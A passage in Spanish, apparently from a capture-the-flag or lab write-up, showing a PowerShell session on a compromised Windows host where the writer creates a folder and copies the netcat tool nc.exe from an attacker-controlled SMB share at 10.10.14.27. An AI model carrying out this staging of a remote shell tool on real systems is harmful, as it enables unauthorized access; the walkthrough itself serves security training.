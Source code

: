 Asi que vamos a un directorio donde tengamos permisos de escritura y nos compartimos el archivo `nc.exe` mediante un recurso compartido a nivel de red.

```bash
PS C:\Users\security> cd Desktop
PS C:\Users\security\Desktop> dir


    Directory: C:\Users\security\Desktop


Mode                LastWriteTime     Length Name                                                                               
----                -------------     ------ ----                                                                               
-a---         8/21/2018  11:37 PM         32 user.txt                                                                           


PS C:\Users\security\Desktop> mkdir test


    Directory: C:\Users\security\Desktop


Mode                LastWriteTime     Length Name                                                                               
----                -------------     ------ ----                                                                               
d----          1/3/2022  12:19 AM            test                                                                               


PS C:\Users\security\Desktop> cd test
PS C:\Users\security\Desktop\test> copy \\10.10.14.27\smbFolder\nc.exe nc.exe
PS C:\Users\security\Desktop\test> dir


    Directory: C:\Users\security\Desktop\test


Mode                LastWriteTime     Length Name                                                                               
----                -------------     ------ ----                                                                               
-a---          1/3/2022  12:00 AM      28160 nc.exe                                                                             


PS C:\Users\security\Desktop\test> 
```
